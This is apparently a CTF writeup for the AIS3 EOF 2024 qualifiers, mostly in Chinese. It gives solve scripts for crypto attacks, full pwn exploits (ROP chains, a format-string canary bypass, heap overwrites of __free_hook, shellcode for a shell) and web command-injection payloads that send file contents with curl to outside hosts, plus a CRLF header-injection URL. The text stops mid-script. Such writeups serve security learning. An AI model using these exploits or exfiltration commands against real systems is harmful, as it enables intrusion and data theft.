




# AIS3 EOF 2024 Qual Writeup
## Crypto
### Baby AES
先利用 CTR 拿到一串 `counter` 的 cipher，然後用拿到的這串 cipher 和 CFB 可以讓 server 幫想要的 plain 加密

Solve Script : 
```python
import sys
if sys.platform == 'darwin':
    sys.path.append('/Users/curious/code')
else:
    sys.path.append('/home/curious/code')

from CTFLib.all import *

r = nc('nc chal1.eof.ais3.org 10003')

res = eval(r.recvline().strip().split(b': ')[1])
counter = bytes_to_long(base64.b64decode(res[0]))
c1_cipher = base64.b64decode(res[1])
c2_cipher = base64.b64decode(eval(r.recvline().strip().split(b': ')[1])[1])
c3_cipher = base64.b64decode(eval(r.recvline().strip().split(b': ')[1])[1])

def oracle(mode, msg):
    r.sendlineafter(b'? ', mode)
    r.sendlineafter(b'? ', base64.b64encode(msg))
    return tuple(base64.b64decode(eval(data)) for data in r.recvline().strip().split())

counter_cipher = oracle(b'CTR', b'\0' * (0x10 * 10))[1]
counter_cipher_block = [counter_cipher[i: i + 16] for i in range(0, len(counter_cipher), 16)]

c1 = b''
c1 += oracle(b'CFB', xor(long_to_bytes(counter, 16), counter_cipher_block[1]) + c1_cipher[:16])[1][16: 32]
c1 += oracle(b'CFB', xor(c1_cipher[:16], counter_cipher_block[2]) + c1_cipher[16: 32])[1][16: 32]

counter += 1

res = oracle(b'CFB', xor(long_to_bytes(counter, 16), counter_cipher_block[3]) + b'\0' * 0x20)[1]
c2 = xor(res[16:], c2_cipher)

counter += 1

c3 = oracle(b'CFB', xor(long_to_bytes(counter, 16), counter_cipher_block[4]) + c3_cipher[:16])[1][16: 32]
c3 += xor(c3_cipher[16: 32], counter_cipher_block[0])

r.close()

print(xor(c1, c2, c3))
```

Flag : `AIS3{_Bl0Ck_CIPHER_M0De_M@STER_}`

---
### Baby RSA
因為 `new_m` 是 `m` 去 xor 一個 64 bits 的數字，可以把它想成加或減一個 64 bits 的數字，而且 64 bits 遠小於 2048 bits，所以可以用 Coppersmith Short-Pad Attack。

但這邊如果用 SageMath 的 `small_roots` 會算不出來，所以我是用自己寫的 Coppersmith Method 然後調整 `m`、`t`、`X` 算出來

Solve Script : 
```python
import sys
if sys.platform == 'darwin':
    sys.path.append('/Users/curious/code')
else:
    sys.path.append('/home/curious/code')

from CTFLib.all import *

r = nc('nc chal1.eof.ais3.org 10002')

e = 3
n = int(r.recvline().strip().split(b', ')[0].split(b'=')[1])
c = int(r.recvline().strip().split(b':  ')[1])

r.sendlineafter(b'?', str(c).encode())
r.recvline()
new_c = int(r.recvline().strip().split(b':  ')[1])

r.close()


# =========


P2 = PolynomialRing(IntegerRing(), names=('x', 'y'))
(x, y) = P2._first_ngens(2)

f1 = x ** e - c
f2 = (x + y) ** e - new_c

h = f1.resultant(f2, x).univariate_polynomial().change_ring(Zmod(n))

a = coppersmith_method(h, 2, 3, 2 ** 64)

P = PolynomialRing(Zmod(n), implementation='NTL', names=('x',))
x = P._first_ngens(1)[0]
f = x + a

print(long_to_bytes(franklin_reiter(e, c, new_c, f, x)))
```

Flag : `AIS3{c0pPEr5M1tHS_5hOR7_P@D_a7t4cK}`

#### Other Solve (賽後 Upsolve)
連線三次然後 Broadcast Attack

Solve Script : 
```python
import sys
if sys.platform == 'darwin':
    sys.path.append('/Users/curious/code')
else:
    sys.path.append('/home/curious/code')

from CTFLib.all import *

n_list = []
c_list = []

for _ in range(3):
    r = nc('nc chal1.eof.ais3.org 10002')

    n_list.append(int(r.recvline().strip().split(b', ')[0].split(b'=')[1]))
    c_list.append(int(r.recvline().strip().split(b':  ')[1]))

    r.close()

m = crt(c_list, n_list)
m = int(iroot(m, 3)[0])
print(long_to_bytes(m))
```

---
### Baby ECDLP
`E` 這個 curve 實際上可以分成 `EllipticCurve(GF(p), [a, b])` 和 `EllipticCurve(GP(q), [a, b])`，因為在 `E` 上的加法和乘法都模 `n`，所以其實可以在模 `p` 和模 `q` 底下運算後再用 CRT 組起來。由此特性也可以推斷在 `E` 上的 `C = mG` 的 `m` 可以先在 `p` 和 `q` 底下做計算，然後再用 CRT 組起來（他們的模數分別是 `G` 在兩條 Elliptic Curve 上的階）

Solve Script : 
```python
import sys
if sys.platform == 'darwin':
    sys.path.append('/Users/curious/code')
else:
    sys.path.append('/home/curious/code')

from CTFLib.all import *

a = -27154162491641447827317608566498368226380663970340212572188253639157407218670381784517832897462487004312776330185051159943282359670183002512120286733987175357480650460937649544845700061395973601196841500934313919493782733624093678701609110901122223990950729051016476731971121823367177421889817992938334549
b = 1582817258653504912095837554346765000265277992215371717068185730839067219018723357006137750249801786737877916839023327905781960451040039537460179157852427719274659276937271923192197684871614875928170877260995573705283990360365185024632017500344370793309893312205444388949133990629771840801117504985014678198427469220008514854309578415211036625606878291957484596541022826252394105050517195849544221684924860724599625501222481150600517965332854601133341721069
C = (7436093194246630483944335175296289563324317371263694228356174117382804849597971217336103824411672179392266726074785617671300813763053114216179250221039892603392880592423379989456603052299778075016044952594411971151420067593340798481269784958872343906682601895033347223307776772075758340491676676976171581, 6342939271272279858259200908013715862939508666280503248590865118774273906373143491503444642001162583341786435804910694908034371484931318715377000661445025084060483595686373540929271169931659317320625326298115913215800295653000999230239869305187900959300563074138805139716095582068425980929262938455949677)

x = var('x')
f = x ** 3 - x ** 2 + a * x + b
roots = f.roots()

p, q = roots[0][0], roots[2][0]

curve_p = EllipticCurve(Zmod(p), [a, b])
curve_q = EllipticCurve(Zmod(q), [a, b])

G_p = curve_p(p, p) + curve_p(q, q)
G_q = curve_q(p, p) + curve_q(q, q)

C_p = curve_p(C[0], C[1])
C_q = curve_q(C[0], C[1])

order_p = G_p.order()
order_q = G_q.order()

m_p = discrete_log(C_p, G_p, operation='+')
m_q = discrete_log(C_q, G_q, operation='+')

common_factor = gcd(order_p, order_q)

new_num = 1
while (order_p % common_factor) == 0:
    order_p //= common_factor
    new_num *= common_factor
order_q //= common_factor

m = crt([int(m_p % order_p), int(m_p % new_num), int(m_q % order_q)], [int(order_p), int(new_num), int(order_q)])
print(long_to_bytes(m))
```

Flag : `AIS3{e@5Y_Int393R_FAcTOr124t1oN_And_An_1nTr0dUc1ToN_to_Mov_4tTAcK5}`

---
### Baby Side Channel Attack (賽後 Upsolve)
可以從 `powmod` 來計算 `d`，然後用 `gmpy2` 來計算 

$$
\operatorname{gcd}(e ^ d - (e ^ d \pmod n), (e ^ d \pmod n) ^ e - e)
$$

就可以得到 `n`

Solve Script : 
```python
import sys
if sys.platform == 'darwin':
    sys.path.append('/Users/curious/code')
else:
    sys.path.append('/home/curious/code')

from CTFLib.all import *
import gmpy2

e = 65537
ed = 5721688550588077985641191508173961972245074865476994704064479801946123887164209388663342701338332558567812609314347659489287173353047777144533962426026347418318069616921736264321855706838583692147678977066176062158232168668404815427100366049936738496591080125636873467881885209211083115619318141949498806942839643469865049195521037671151773559734628632549787594196712198658273397444193797775811305995509546010942133781474885616340776193210470242080424913632036855870044912767294885166655404543194845749910105549754235167481217327222138073116966637145930541288124689469006397656333341222230561315927844249209568480354
de = 8985256394095619079119099570094014846268317341324798034846555948870847429329193779767437326846889358426021449544400148884762043197023074840010149626425917422564714701891075861428282977311259090431056666240151543042536272844750622812295866605086015645366488007125169276479711781593166580720782664089890448123442349041750508219113854228963560960274445282199168095845010260471482937497287090254883835249450636581713174149273026191425541759670393086780488747365895955879520359959181158188465207455606975283163259194507214598217602443929920200291444536399862579286846812756318954111746283506979355959316209074536433672316
c = 7739104450631011229057411265150712443424785514265051342793819325372820300340472256011233443673633601159152976538560072352375269634415819053954986731906979762835836124649316216002733865651050214718799689619175866375452829969954447145351504992648855716308787054916022056130053312632711699359262825162281932961292544396548580708063991082954474478238205557331135141442998387857016443945540320289168024163399773525375968227097250220143134871643929152579713763213644307485869383724166384994980928616425183465436930377862579190667146441606703735207068056823055834058286201970411571547298263777594380560574513740280779379949

f = open('trace.txt')
for _ in range(96):
    f.readline()

d = ''
while True:
    code = f.readline().strip().split(':')[1].strip()
    if 'if' in code:
        next_code = f.readline().strip().split(':')[1].strip()
        if 'r = r * a % c' == next_code:
            d += '1'
        else:
            d += '0'
    if 'return' in code:
        break
d = int(''.join(reversed(d)), 2)

e_g, d_g, ed_g, de_g = gmpy2.mpz(e), gmpy2.mpz(d), gmpy2.mpz(ed), gmpy2.mpz(de), 
n = int(gmpy2.gcd(d_g ** e_g - de_g, ed_g ** e_g - e_g))

print(long_to_bytes(pow(c, d, n)))
```

Flag : `AIS3{SIde_CH@Nn3L_1$_e@sy_wH3N_Th3_DA7A_Le@KA93_i5_eX@Ct}`

---
### Baby XOR (賽後 Upsolve)
記 `out = xorrrr(mods)`，可以假設一個 48 bits 的數 `S` 且 `out[i] ^ S == mods[i]`。把 `S` 的每一個 bit 都用一個 `GF(3)` 的 symbol 代表，然後把 `mods[i]` 寫成這 48 個 symbol 的 polynomial。因為 `mods[i]` 為 48 bits 的質數，所以第 0 和 第 47 個 bit 都是 1，而其他 bit 不是 1 就是 0。且 `mods[i]` 在 `GF(3)` 底下不是 1 就是 2。利用這些條件可以解出一些 `S`，然後一個一個嘗試 `S` 看看是否能讓所有 `mods[i]` 都是質數

解出 `mods[i]` 之後就可以用 [這篇](https://users.monash.edu.au/~rste/MultCRT.pdf) 文章寫的方式，稍微改一下 lattice（我也不知道為啥那個 `A.bit_length() = 1337 + 6` 可以然後 `A.bit_length() = 1337` 就不行）就可以解出 `secret`

Solve Script : 
```python
import sys
if sys.platform == 'darwin':
    sys.path.append('/Users/curious/code')
else:
    sys.path.append('/home/curious/code')

from CTFLib.all import *
from Crypto.Cipher import AES

n, b, m_bits = 1337, 48, 6

with open("output.txt") as f:
    out = eval(f.readline())
    hint = eval(f.readline())
    cipher = bytes.fromhex(f.readline())

def calc_mods():
    R = PolynomialRing(GF(3), b, 'x')
    S_sym_bits = list(R.gens())

    mods_sym_list = []
    for o in out:
        o_bits = [int(x) for x in bin(o)[2:].rjust(b, '0')[::-1]]
        o_xor_S_sym = sum(
            [
                2 ** i * (y if x == 0 else 1 - y)
                for i, (x, y) in enumerate(zip(o_bits, S_sym_bits))
            ]
        )
        mods_sym_list.append(o_xor_S_sym)

    S0 = 1 - (out[0] & 1)
    Sb1 = 1 - (out[0] >> (b - 1))

    prod_list = [(f - 1) * (f - 2) for f in mods_sym_list]
    constrains = (
        [x * (x - 1) for x in S_sym_bits] + \
        [S_sym_bits[0] - S0] + \
        [S_sym_bits[b - 1] - Sb1]
    )
    Q = R.quotient(constrains)
    prod_list = [Q(f).lift() for f in prod_list]
    M, monos = Sequence(prod_list).coefficient_matrix(sparse=False)
    monos = vector(monos)
    kr = M.right_kernel_matrix()

    S_sym_bits_zz = [x.change_ring(ZZ) for x in S_sym_bits]
    S_sym_zz = sum((2 ** i) * x for i, x in enumerate(S_sym_bits_zz))
    S_list = []
    for v in kr:
        if v[-1] != 1:
            continue
        if (2 in [ZZ(s) for m, s in zip(monos, v) if m.degree() == 1]):
            continue

        subs = dict(
            [(m.change_ring(ZZ), ZZ(s)) for m, s in zip(monos, v) if m.degree() == 1]
        )
        subs[S_sym_bits_zz[0]] = ZZ(S0)
        subs[S_sym_bits_zz[b - 1]] = ZZ(Sb1)

        S_list.append(int(S_sym_zz.subs(subs)))

    for S in S_list:
        mods = [S ^ m for m in out]
        if all(isPrime(m) for m in mods):
            return mods

mods = calc_mods()

secret = mul_noise_crt(mods[:256], hint[:256], 1337, 6)

key = hashlib.sha256(str(secret).encode()).digest()[:16]
aes = AES.new(key, AES.MODE_CTR, nonce=b"\x00" * 12)
print(aes.decrypt(cipher))
```

Flag : `AIS3{cON9ratuL@7e_0N_S0lv1ng_tHis_CHAlLen93_aND_1_am_WONd3r1NG_H0w_yOU_$0lvED_THi5}`

---
## Pwn
### jackpot
`printf("Here is your ticket 0x%lx\n", ticket_pool[number]);` 可以 leak stack 上的資料，然後	`read(0, name, 0x100);` 可以 BOF。所以我先 leak `rbp` 的值然後改 return address 重新執行一次 `main`，然後 leak libc 的 address 然後 open & read & write

Solve Script : 
```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

main_addr = 0x401358
buf = 0x405000 - 0x100

# docker create --name jackpot-ubuntu ubuntu@sha256:bbf3d1baa208b7649d1d0264ef7d522e1dc0deeeaaf6085bf8e4618867f03494
# docker cp jackpot-ubuntu:/lib/x86_64-linux-gnu/libc.so.6 .
# docker rm jackpot-ubuntu
# r = process('./jackpot', env={'LD_PRELOAD': './libc.so.6'})
r = remote('10.105.0.21', 12115)

r.sendlineafter(b': ', b'35')
rbp = int(r.recvline().strip().split()[4], 16) - 0x118
info(f'rbp : {hex(rbp)}')

r.sendlineafter(b': ', b'a' * 0x70 + flat(rbp + 0x110, main_addr))

r.sendlineafter(b': ', b'17')
libc = int(r.recvline().strip().split()[4], 16) - 0x29e40
info(f'libc : {hex(libc)}')

open_addr = libc + 0x1142f0
read_addr = libc + 0x1145e0
write_addr = libc + 0x114680

pop_rdi_ret = libc + 0x2a3e5
pop_rsi_ret = libc + 0x2be51
pop_rdx_ret = libc + 0x796a2

r.sendlineafter(b': ', b'./flag\0'.ljust(0x70, b'.') + flat(
    rbp, 
    pop_rdi_ret, rbp + 0xa0, 
    pop_rsi_ret, 0, 
    open_addr, 
    pop_rdi_ret, 3, 
    pop_rsi_ret, buf, 
    pop_rdx_ret, 0x50, 
    read_addr, 
    pop_rdi_ret, 1, 
    write_addr
))

r.interactive()
```

Flag : `AIS3{juST_@_ea5y_InT_0vERFloW_4nD_8UF_Ov3rFL0W}`

---
### sec_fmt
主要就是 `response_notfound` 並沒有先清理掉 `buf` 的殘留值，然後後面會執行 `__printf_chk(1, buf)`，所以可以控制 `buf` 位址上的殘留值然後 FMT，但因為 FORTIFY 是開的，所以用 `%p` 和 `%s` leak `codebase`、`libc`、`esp`、`canary`，然後 `response_regist_error` 有 BOF 可以寫 ROP，這邊比較麻煩的就是 `canary` 的第 1 個 byte 是 0，所以我用 libc 裡面的 `%n` 寫 canary 前 3 byte 來 bypass

Solve Script : 
```python
from pwn import *
import json

context.arch = 'i386'
context.terminal = ['tmux', 'splitw', '-h']

# r = process('./sec_fmt', env={'LD_PRELOAD': './libc.so.6'})
r = remote('10.105.0.21', 14070)

def register(name, id):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', name)
    r.sendlineafter(b': ', id)
    return json.loads(r.recvline().strip())['uuid']

# =========

uuid = register(b'a' * 0x116 + b'%p', b'a')

r.sendlineafter(b'> ', b'2')
r.sendlineafter(b': ', uuid.encode())

r.sendlineafter(b'> ', b'3')
r.sendlineafter(b': ', b'a')

codebase = int(r.recvline().strip(), 16) - 0x3053
info(f'codebase : {hex(codebase)}')
strcmp_got = codebase + 0x4f94

r.sendlineafter(b'> ', b'3')
r.sendafter(b': ', uuid.encode() + b'\0')


uuid = register(b'a' * 0x116 + p32(strcmp_got) + b'%p' * 5 + b'.' + b'%s', b'a')

r.sendlineafter(b'> ', b'2')
r.sendlineafter(b': ', uuid.encode())

r.sendlineafter(b'> ', b'3')
r.sendlineafter(b': ', b'a')

r.recvuntil(b'.')
libc = u32(r.recv(4)) - 0x191a50
info(f'libc : {hex(libc)}')
system_addr = libc + 0x48170
binsh_addr = libc + 0x1bd0d5

r.sendlineafter(b'> ', b'3')
r.sendafter(b': ', uuid.encode() + b'\0')


uuid = register(b'a' * 0x116 + b'%p' * 116, b'%p' * 57)

r.sendlineafter(b'> ', b'2')
r.sendlineafter(b': ', uuid.encode())

r.sendlineafter(b'> ', b'3')
r.sendlineafter(b': ', b'a')

esp = int(r.recvlines(2)[1][-8:], 16) - 0x338
info(f'esp : {hex(esp)}')

r.sendlineafter(b'> ', b'3')
r.sendafter(b': ', uuid.encode() + b'\0')


uuid = register(b'a' * 0x116 + p32(esp + 0x31c + 1) + b'%p' * 5 + b'.' + b'%s', b'a')

r.sendlineafter(b'> ', b'2')
r.sendlineafter(b': ', uuid.encode())

r.sendlineafter(b'> ', b'3')
r.sendlineafter(b': ', b'a')

r.recvuntil(b'.')
canary = u32(b'\0' + r.recv(3))
info(f'canary : {hex(canary)}')

# =========

for i in range(15):
    register(b'a', b'a')

r.sendlineafter(b'> ', b'1')

payload = b'a' * 12 + p32(esp - 0x150) + b'a' * 12

payload += flat(
    libc + 0x1be4f7,   # %n
    codebase + 0x5f30, # ""
    codebase + 0x3050, # %s
    codebase + 0x5f30, # ""
    esp + 0x2fc - 3,   # canary position - 3
    esp + 0x2fc - 3,   # canary position - 3
    codebase + 0x3050, # %s
    canary + 0x77      # canary + 0x77
)

payload += b'a' * 28

payload += flat(system_addr, 0xdeadbeef, binsh_addr)

payload = payload.ljust(0x1c0, b'a')

info('NULL BYTES IN PAYLOAD : ' + str(b'\0' in payload))
info('NEWLINE IN PAYLOAD    : ' + str(b'\n' in payload))

r.sendlineafter(b': ', payload)
r.sendlineafter(b': ', b'a' * 0xff)

r.interactive()
```

Flag : `AIS3{juST_CH3Ck_In_PROc_maps_Re@d_ONlY_5e9MEnt}`

---
### perm_note
主要就是 `merge_rdonly_note` 可以把 `RDWR` + `RDONLY` merge 起來，構造一下 chunk 的大小和 chunk 裡面的資料，就可以寫到下一個 chunk 的 metadata，然後就蠻複雜，所以就直接看 script。

Solve Script : 
```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# r = process('./perm_note', env={'LD_PRELOAD': './libc.so.6'})
r = remote('10.105.0.21', 13150)

def write_RDONLY_note(idx, size, content):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'? ', str(idx).encode())
    r.sendlineafter(b'? ', str(size).encode())
    r.sendafter(b': \n', content)

def delete_note(idx):
    r.sendlineafter(b'> ', b'6')
    r.sendlineafter(b'? ', str(idx).encode())

def merge_RDONLY_note(dst_idx, src_idx):
    r.sendlineafter(b'> ', b'5')
    r.sendlineafter(b'? ', str(dst_idx).encode())
    r.sendlineafter(b'? ', str(src_idx).encode())

def write_RDWR_note(idx, size, content):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'? ', str(idx).encode())
    r.sendlineafter(b'? ', str(size).encode())
    r.sendafter(b': \n', content)

def rewrite_RDWR_note(idx, content):
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b'? ', str(idx).encode())
    r.sendafter(b': \n', content)

# =========

for i in range(8):
    write_RDONLY_note(i, 0x80, b'a')

for i in reversed(range(8)):
    delete_note(i)

write_RDONLY_note(0, 0x80, b'a')

r.sendlineafter(b'> ', b'1')
r.sendlineafter(b'? ', b'0')
r.recvuntil(b': \n')
heap_base = u64(r.recv(6).ljust(8, b'\0')) - 0x461
info(f'heap base : {hex(heap_base)}')

for i in range(1, 7):
    write_RDONLY_note(i, 0x80, b'a')

write_RDONLY_note(7, 0x20, b'a')

r.sendlineafter(b'> ', b'1')
r.sendlineafter(b'? ', b'7')
r.recvuntil(b': \n')
libc = u64(r.recv(6).ljust(8, b'\0')) - 0x1ecc61
info(f'libc : {hex(libc)}')
free_hook = libc + 0x1eee48
system_addr = libc + 0x52290

for i in range(8):
    delete_note(i)

# =========

for i in range(1, 8):
    write_RDONLY_note(i, 0x80, b'a' * 0x80)

write_RDWR_note(0, 0x81, b'a' * 0x80 + b'\n')

for i in range(1, 8):
    merge_RDONLY_note(0, i)

write_RDONLY_note(1, 0x80, b'a' * 0x80)
write_RDONLY_note(3, 0x90, b'a' * 0x90)
merge_RDONLY_note(0, 1)


write_RDWR_note(1, 0x91, b'a' * 0x90 + b'\n')
write_RDONLY_note(2, 0x70, b'a' * 0x68)


# build a chunk of size 0x100
merge_RDONLY_note(1, 2)
# build a chunk of size 0x520
merge_RDONLY_note(0, 3)


rewrite_RDWR_note(0, b'a' * 0x4f8 + p64(0x21) + b'\n')
rewrite_RDWR_note(1, b'a' * 0xf7 + b'\n')
rewrite_RDWR_note(1, b'a' * 0xf0 + p64(0x100)[:7] + b'\n')
rewrite_RDWR_note(1, flat(
    heap_base + 0x1290, heap_base + 0x1290,
    0, 0x21, 
    heap_base + 0x1270, heap_base + 0x1270
) + b'\n')


# clean unsorted bin
for i in range(2, 8):
    write_RDONLY_note(i, 0xb0, b'a' * 0x10)
for i in range(2, 8):
    delete_note(i)

write_RDONLY_note(2, 0xa0, b'a' * 0xa0)
write_RDONLY_note(3, 0xa0, b'a' * 0x10)


# delete 0x500 chunk & consolidate with 0x100 chunk
delete_note(0)


write_RDONLY_note(4, 0xa0, b'a' * 0x10)

delete_note(3)
delete_note(4)

merge_RDONLY_note(1, 2)
delete_note(1)


write_RDONLY_note(0, 0xa0, p64(free_hook))
write_RDONLY_note(1, 0xa0, b'/bin/sh\0')
write_RDONLY_note(2, 0xa0, b'a')
write_RDONLY_note(3, 0xa0, p64(system_addr))

delete_note(1)


r.interactive()
```

Flag : `AIS3{@ll_Heap_SKILl_L3arN3d_iN_CL@5S_aR3_USed_Xd}`

---
### DFA (賽後 Upsolve)
因為他是限制 `bytecode_sz` 不能比 `0x10000` 大，所以可以利用 `uint16_t Reject_State = (uint16_t)bytecode_sz+9+8;`，當在構造所有 transitions 都不符合要跳到的位址 `int reject_state_off = (int)(int16_t)(Reject_State - (state_default_trans_off+5));` 時，就可以控制 `Reject_State = 0x1000b`，然後這一個 `jmp` instruction 就會跳到第一個 state 的第一個 transition 的 alphabet 的位址，接著就是構造 shellcode 拿 shell

Solve Script : 
```python
from pwn import *
from tqdm import trange

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# docker create --name dfa-ubuntu ubuntu@sha256:2b7412e6465c3c7fc5bb21d3e6f1917c167358449fecac8176c6e496e5c1f05f
# docker cp dfa-ubuntu:/lib/x86_64-linux-gnu/libc.so.6 .
# docker rm dfa-ubuntu
# r = process('./dfa', env={'LD_PRELOAD': './libc.so.6'})
r = remote('10.105.0.21', 11107)

r.sendlineafter(b') ', b'47')

def state_setup(alphabet_list, next_state_list):
    assert len(alphabet_list) == len(next_state_list)

    num = len(alphabet_list)

    r.sendlineafter(b') ', str(num).encode())

    for i in range(num):
        r.sendline(str(alphabet_list[i]).encode())
        r.sendline(str(next_state_list[i]).encode())

def asm2num(code):
    return u32(asm(code)[:4])

state_setup(
    [
        asm2num('jmp $+36; nop; nop'), 
        asm2num('syscall; nop; nop'), 
        asm2num('xor esi, esi; jmp $-14'), 
        asm2num('xor edx, edx; jmp $-14'), 
    ], 
    [0] * 4
)

for _ in trange(42):
    state_setup(list(range(128)), [0] * 128)
for _ in trange(3):
    state_setup(list(range(6)), [0] * 6)
state_setup(list(range(8)), [0] * 8)

r.sendlineafter(b'> ', (chr(59) + '/bin/sh').encode())

r.interactive()
```

Flag : `AIS3{I_F0rg3T_70_aDD_3pIL0GUe_len9th_QQ}`

---
## Web
### DNS Lookup Tool: Final
比賽的時候我是假設 flag 的檔案名稱裡沒有 `#` 這個字元，所以一個一個加上 `[!#]` 去測試 flag 的檔案名稱長度

```
`curl http://139.162.109.66:8000/$(ls /fla[!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#])`
```

然後測試出來之後就用把 flag 印出來

```
`curl http://139.162.109.66:8000/$(cat /fla[!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#][!#])`
```

這邊 `{}` 會被吃掉所以要自己補上

Flag : `AIS3{jUsT_3aSy_c0MManD_1NJ3c7ION}`

#### Other Solve (賽後 Upsolve)
後來發現可以更直接的解出來

```
`curl https://engvsb647k23s.x.pipedream.net -d "$(ls /)"`
```

```
`curl https://engvsb647k23s.x.pipedream.net -d "$(cat /fla'g'_WMyus2QrY1z8l1zI)"`
```

---
### Internal
查資料可以發現 Nginx 的 `internal` 會 redirect 有 `X-Accel-Redirect` header 的封包，所以用 `%0d%0a` 把 `X-Accel-Redirect` 寫進 response header

```
http://10.105.0.21:11748/?redir=http://10.105.0.21:11748/flag%0d%0aX-Accel-Redirect:%20/flag
```

Flag : `AIS3{jUsT_sOM3_fUNNy_N9inX_FEaTuRe}`

---
## Rev
### Flag Generator
用 IDA 打開之後可以發現有一個函數叫 `writeFile`



裡面有一段呼叫 `fwrite` 的程式，直接用 IDA 內建的工具 patch 他



然後就可以得到一個 `flag.exe` 檔，去 x64 的 Windows （arm 的不行）執行就可以得到 flag 了

Flag : `AIS3{Us1ng_wInd0w5_I$_sUCh_a_Pa1N....}`

---
### PixelClicker
把 `pixelclicker.exe` 跑起來之後可以看到視窗上有這樣一行字


用 IDA 把 `pixelclicker.exe` 打開之後找到這一段 string



xref 之後可以找到一個 function，這個 function 最前面長這樣



稍微看一下後可以發現大概是在比對 `Block` 加上某一個 offset 代表的圖片和 `pixelclicker.exe` 視窗的圖片，所以用 x64dbg 追進去之後把 `Block` 加上某一個 offset 的 memory dump 出來（總共 dump 4 * 600 * 600），然後寫一個 script 把 memory dump 轉成圖片


Solve Script : 
```python
import png

def write_png(png_list: list, output_file: str):
    """
    - input
        - `png_list (list)` : `[[(r, g, b, a), ...], [], ...]` or `[[(r, g, b), ...], [], ...]`
        - `output_file (str)`
    """

    width = len(png_list[0])
    height = len(png_list)
    alpha = len(png_list[0][0]) == 4

    with open(output_file, 'wb') as f:
